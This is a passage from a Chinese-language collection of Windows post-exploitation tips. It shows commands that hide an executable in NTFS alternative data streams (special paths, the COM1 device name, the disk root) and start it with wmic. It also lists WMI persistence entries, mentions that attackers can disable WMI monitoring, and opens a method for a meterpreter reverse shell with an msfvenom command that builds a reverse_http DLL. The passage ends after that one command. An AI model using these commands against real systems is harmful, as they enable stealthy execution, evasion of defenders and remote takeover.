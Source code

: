 #### 方法3：特殊ADS

(1)...

```
type putty.exe > ...:putty.exe
wmic process call create c:\test\ads\...:putty.exe
```

(2)特殊COM文件

```
type putty.exe > \\.\C:\test\ads\COM1:putty.exe
wmic process call create \\.\C:\test\ads\COM1:putty.exe
```

(3)磁盘根目录

```
type putty.exe >C:\:putty.exe 
wmic process call create C:\:putty.exe
```

参考：

[《Hidden Alternative Data Streams的进阶利用技巧》](https://3gstudent.github.io/3gstudent.github.io/Hidden-Alternative-Data-Streams%E7%9A%84%E8%BF%9B%E9%98%B6%E5%88%A9%E7%94%A8%E6%8A%80%E5%B7%A7/)

---

### Tips 27. Windows系统中值得搜集的信息

#### (1)已注册的WMI信息

```
wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter GET __RELPATH /FORMAT:list
wmic /NAMESPACE:"\\root\subscription" PATH CommandLineEventConsumer GET __RELPATH /FORMAT:list
wmic /NAMESPACE:"\\root\subscription" PATH __FilterToConsumerBinding GET __RELPATH /FORMAT:list
```

管理员也许会使用WMI记录攻击者调用WMI的操作，可通过wmic查看，当然通过wmic也能关闭该监控功能

参考：

[《Study Notes Weekly No.1(Monitor WMI & ExportsToC++ & Use DiskCleanup bypass UAC))》](https://3gstudent.github.io/3gstudent.github.io/Study-Notes-Weekly-No.1(Monitor-WMI_ExportsToC++_Use-DiskCleanup-bypass-UAC)/)

---

### Tips 28. Windows系统反弹meterpreter的常用方法

#### 方法1：通过rundll32加载dll反弹meterpreter

msf：

```
msfvenom -p windows/meterpreter/reverse_http -f dll LHOST=192.168.174.133 LPORT=8080>./a.dll
```
